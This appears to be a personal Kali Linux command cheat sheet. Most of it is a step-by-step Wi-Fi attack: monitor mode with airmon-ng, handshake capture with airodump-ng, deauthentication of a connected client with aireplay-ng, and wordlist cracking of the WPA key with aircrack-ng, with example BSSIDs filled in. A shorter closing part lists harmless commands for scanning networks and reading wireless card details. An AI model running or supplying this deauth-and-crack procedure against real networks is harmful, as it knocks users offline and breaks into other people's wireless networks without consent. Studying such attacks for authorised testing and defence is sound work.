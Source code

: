 # Useful Shell Commands



# Kali Linux Commands

## *************************************************************************************************


## PEN testing 
 * download device driver for host
 * add device filter in virtual box
 * airmon-ng
 * if it doesn't show download 
 * https://www.youtube.com/redirect?v=6cCwsno-ty4&event=video_description&redir_token=g6WYwaKHJoDB_MUujqrktQsGkAh8MTUyMzkwOTA1MEAxNTIzODIyNjUw&q=http%3A%2F%2Flinuxwireless.sipsolutions.net%2Fdownload%2Fcompat-wireless-2.6%2Fcompat-wireless-2010-06-26-p.tar.bz2

		  cd into it
		  make unload 
		  make load
		  airmon-ng (Do you see it? ) 
		  airmon-ng start wlan0
		  airodump-ng wlan0mon
		  airodump-ng -c [channel] --bssid [bssid] -w /root/Desktop/ [monitor interface] (airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/Desktop/ mon0)
		  Leave airodump-ng running and open a second terminal. In this terminal, type this command: aireplay-ng –0 2 –a [router bssid] –c [client bssid] mon0
		  	EX. aireplay-ng –0 2 –a 00:14:BF:E0:E8:D5 –c 4C:EB:42:59:DE:31 mon0
 		  Open a new Terminal. Type in this command: aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/Desktop/*.cap


 * Scan available networks 

 	sudo iwlist scan

 * Get installed wireless card info 

	lspci
	lspci | grep -i wireless
	lspci | egrep -i --color 'wifi|wlan|wireless'

 * Get wireless card driver info 

 	lspci -vv -s 0c:00.0


## *************************************************************************************************
